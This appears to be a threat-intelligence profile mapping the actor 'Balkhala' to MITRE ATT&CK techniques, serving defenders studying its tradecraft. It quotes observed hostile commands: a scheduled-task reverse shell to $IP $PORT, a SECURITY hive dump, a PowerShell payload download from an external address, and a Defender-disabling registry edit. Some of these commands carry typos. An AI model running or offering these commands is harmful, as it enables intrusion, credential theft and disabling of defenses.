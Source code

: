 ```yaml
---
cover: ../../.gitbook/assets/bear_Balkhala_cover.png
coverY: 0
---
```


# Mitre

* **Tactic: TA0001 - Initial Access**  
  * **Technique: T1190 - Exploit Public-Facing Application**  
    * **Reasons:**  
      * Balkhala predominantly achieves initial access through exploitation of web servers commonly found on network perimeters and DMZs. (2023-06-14)  
      * Balkhala is also known for exploiting Confluence servers through the CVE-2021-26084 vulnerability, Exchange servers through multiple vulnerabilities including CVE-2022-41040 and ProxyShell, and likely commodity vulnerabilities in various open-source platforms such as content management systems. (2023-06-14)  
  
* **Tactic: TA0003 - Persistence**  
  * **Technique: T1505.003 - Server Software Component: Web Shell**  
    * **Reasons:**  
      * Balkhala frequently persists on target networks through the deployment of commodity web shells used either for commanding or tunneling. (2023-06-14)  
      * Commonly utilized web shells include P0wnyshell, reGeorg, PAS, and even custom variants included in publicly available exploit kits. (2023-06-14)  
  * **Technique: T1053.005 - Scheduled Task**  
    * **Reasons:**  
      * Frequently, remote command execution may be facilitated through remotely scheduled tasks. (2023-06-14)
    * **Procedures:**  
      * ```cmd.exe /Q /c schtasks /create /ru SYSTEM /sc HOURLY /MO 11 /tnn splservice /tr "c:\Windows\spl32.exe -e c:\windows\system32\cmd.exe $IP $PORT 1> \\127.0.0.1\ADMIN$\__$REDACTED 2>&1```
  
* **Tactic: TA0006 - Credential Access**  
  * **Technique: T1003.001 - OS Credential Dumping: LSASS Memory**  
    * **Reasons:**  
      * Balkhala uses Sysinternals tools such as procdump to dump LSASS in suspected offline credential harvesting efforts. (2023-06-14)  
      * Balkhala frequently renames procdump64 to alternative names, such as dump64.exe. (2023-06-14)
  * **Technique: T1003.002 - OS Credential Dumping: Security Account Manager**  
    * **Reasons:**  
      * Balkhala extracts registry hives using native means via reg save. (2023-06-14)  
    * **Procedures:**  
      * ```cmd.exe /Q /c reg.exe save hklm\security c:\ProgramData\security.save 1> \\127.0.0.1\ADMIN$\__$REDACTED 2>&1``` (2023-06-14)  
  * **Technique: T1078 - Valid Accounts**  
    * **Reasons:**  
      * Balkhala conducts lateral movement with valid network credentials obtained from credential harvesting. (2023-06-14)  
  
* **Tactic: TA0008 - Lateral Movement**  
  * **Technique: T1021 - Remote Services**  
    * **Reasons:**  
      * Balkhala conducts lateral movement with valid network credentials obtained from credential harvesting. (2023-06-14)

* **Tactic: TA0007 - Discovery**  
  * **Technique: T1082 - System Information Discovery**  
    * **Reasons:**  
      * Balkhala uses 'systeminfo' to fingerprint a device after lateral movement. (2023-06-14)  
  
  * **Technique: T1120 - Peripheral Device Discovery**  
    * **Reasons:**  
      * Balkhala uses 'get-volume' to fingerprint a device after lateral movement. (2023-06-14)
    * **Procedures:**  
      * ```cmd.exe /Q /c powershell get-volume 1> \\127.0.0.1\ADMIN$\__$REDACTED 2>&1``` (2023-06-14)
  
  * **Technique: T1046 - Network Service Scanning**  
    * **Reasons:**  
      * Balkhala uses 'nslookup' to research specific devices (IP) and FQDNs internally. (2023-06-14)  
  
  * **Technique: T1018 - Remote System Discovery**  
    * **Reasons:**  
      * Balkhala uses 'Get-DnsServerResourceRecord' to conduct reconnaissance of an internal DNS namespace. (2023-06-14)  
  
  * **Technique: T1049 - System Network Connections Discovery**  
    * **Reasons:**  
      * Balkhala uses 'query session' to profile RDP connections. (2023-06-14)  
      * Balkhala uses 'route print' to enumerate routes available on the devices. (2023-06-14)  
  
* **Tactic: TA0002 - Execution**  
  * **Technique: T1059.001 - Command and Scripting Interpreter: PowerShell**
    * **Reasons:**  
      * Balkhala uses 'DownloadFile' via PowerShell to download payloads from external servers. (2023-06-14) 
    * **Procedures:**  
      * ```cmd.exe /Q /c powershell "$wc=New-Object System.Net.WebClient;$wc.DownloadFiile('$IPADDRESS/filename', 'C:\ProgramData\USOPublic\UpdatePublic\winservice.exe')" 1> \\127.0.0.1\ADMIN$\__$REDACTED 2>&1``` (2023-06-14) 

* **Tactic: TA0011 - Command and Control**  
  * **Technique: T1090.001 - Internal Proxy**  
    * **Reasons:**  
      * Balkhala periodically uses generic socket-based tunneling utilities to facilitate command and control (C2) to actor-controlled infrastructure. (2023-06-14)  
      * Payloads such as NetCat and Go Simple Tunnel (GOST) are commonly renamed to blend into the operating system but are used to shovel interactive command prompts over established sockets. (2023-06-14)

* **Tactic: TA0005 - Defense Evasion**  
  * **Technique: T1070.001 - Indicator Removal: Clear Windows Event Logs**  
    * **Reasons:**  
      * The activities are anticipated to be consistent with anti-forensics activities. (2023-06-14)  
      * Common file targets during extraction are sec.evtx and sys.evtx. (2023-06-14)  
      * Balkhala commonly deletes files used during operational phases seen in lateral movement. (2023-06-14)  
  * **Technique: T1562.001 - Impair Defenses: Disable or Modify Tools**  
    * **Reasons:**  
      * Balkhala malware implants are known to disable Microsoft Defender Antivirus through a variety of means. (2023-06-14)  
      * NirSoft AdvancedRun utility, which is used to disable Microsoft Defender Antivirus by stopping the WinDefend service. (2023-06-14)  
      * Disable Windows Defender.bat, which presumably disables Microsoft Defender Antivirus via the registry. (2023-06-14)
    * **Procedures:**  
      * ```reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaiorMonitoring" /t REG_DWORD /d "1" /f```